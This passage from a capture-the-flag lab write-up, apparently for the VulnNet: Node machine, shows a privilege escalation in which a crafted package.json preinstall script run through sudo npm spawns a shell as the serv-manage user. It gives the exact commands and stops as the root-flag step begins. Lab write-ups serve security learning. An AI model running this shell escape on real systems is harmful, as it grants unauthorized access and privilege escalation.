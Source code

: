 ![screenshot16](../assets/images/vulnnet_node/screenshot16.png)

Thus, we can run the following commands to open up a shell as **serv-manage**:

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
chmod 777 $TF
sudo -u serv-manage npm -C $TF --unsafe-perm i
```

*(Note: We need to make the temp directory created accessible by everyone, which is why I did `chmod 777 $TF`. The exploit does not do this as it assumes we are sudoing as root, which already has the max privileges and can access any directory. Here, we are sudoing as a normal user, serv-manage)*

![screenshot17](../assets/images/vulnnet_node/screenshot17.png)

We're now **serv-manage**!

The **user flag** can be found in the home directory of serv-manage:

![screenshot18](../assets/images/vulnnet_node/screenshot18.png)

---

### [ What is the root flag? (root.txt) ]

Now we need to find a way to escalate our privileges to that of root.
